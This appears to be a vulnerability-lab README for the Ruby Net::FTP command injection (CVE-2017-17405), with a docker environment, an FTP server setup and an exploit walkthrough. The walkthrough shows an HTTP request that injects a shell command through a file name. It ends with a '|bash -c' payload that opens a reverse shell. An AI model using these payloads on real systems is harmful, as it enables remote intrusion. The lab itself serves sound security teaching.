 # Ruby Net::FTP Module Command Injection (CVE-2017-17405)

Ruby Net::FTP module is a FTP library provided by Ruby core.

Ruby before 2.4.3 allows Net::FTP command injection. `Net::FTP#get`, `getbinaryfile`, `gettextfile`, `put`, `putbinaryfile`, and `puttextfile` use `Kernel#open` to open a local file. If the localfile argument starts with the "|" pipe character, the command following the pipe character is executed. The default value of localfile is `File.basename(remotefile)`, so malicious FTP servers could cause arbitrary command execution.

References:

- <https://blog.heroku.com/identifying-ruby-ftp-cve>
- <https://www.exploit-db.com/exploits/43381>

## Vulnerable environment

Execute following command to start a Ruby 2.4.1 webserver that uses Net::FTP to download FTP file:

```
docker compose up -d
```

After the server is started, a simple webserver is running on `http://your-ip:8080/`. What this server does is that when we visit `http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`, it downloads the file `vulhub.txt` from FTP server `example.com:2121`.

## Exploit

Since this is an FTP client vulnerability, we have to to run a simple FTP server that can be accessed. For example, using Python's pyftpdlib:

```
# intsall pyftpdlib
pip install pyftpdlib

# start a FTP server on `0.0.0.0:2121`
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

Then, use this FTP server address as the *uri* parameter and the payload `|touch${IFS}success.txt` as the *file* parameter in following request:

```
GET /download?uri=ftp://example.com:2121/&file=|touch${IFS}success.txt HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](1.png)

Go into the docker container, you can see the `success.txt` has been created successfully:

![](2.png)

Change the payload to `|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'` and get a reverse shell:

![](3.png)
